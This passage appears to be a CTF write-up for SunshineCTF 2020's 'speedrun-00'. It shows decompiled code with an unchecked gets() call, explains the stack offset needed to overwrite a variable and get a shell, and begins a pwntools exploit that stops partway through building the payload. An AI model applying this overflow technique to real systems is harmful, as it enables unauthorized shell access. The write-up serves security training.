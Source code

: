 Above should be ordered by difficulty based on solved, however I assume some were stuck on harder problems and did not look at some of the easier problems released later in the CTF--assume a combination of difficulty and release time.




## speedrun-00

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

No stack canary, assume BOF.

### Decompile with Ghidra

```c
void main(void)
{
  char local_48 [56];
  int local_10;
  int local_c;
  
  puts("This is the only one");
  gets(local_48);
  if (local_c == 0xfacade) {
    system("/bin/sh");
  }
  if (local_10 == 0xfacade) {
    system("/bin/sh");
  }
  return;
}
```

A common theme throughout this write-up will be using the Ghidra variable names as stack frame offsets.  E.g., `local_48` is `0x48` bytes offset from the end of the stack frame (also where the return address is).

To target `local_c`, just write (`0x48 - 0xc`) bytes of garbage and then `0xfacade` to overwrite `local_c`'s value.  Or, do the same for `local_10`.

It's also important to note the the binary is 64-bit and that `int` is 32-bit.


### Exploit

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./chall_00')

if not args.REMOTE:
	p = process(binary.path)
else:
	p = remote('chal.2020.sunshinectf.org', 30000)

payload  = b''
payload += (0x48 - 0xc) * b'A'
```
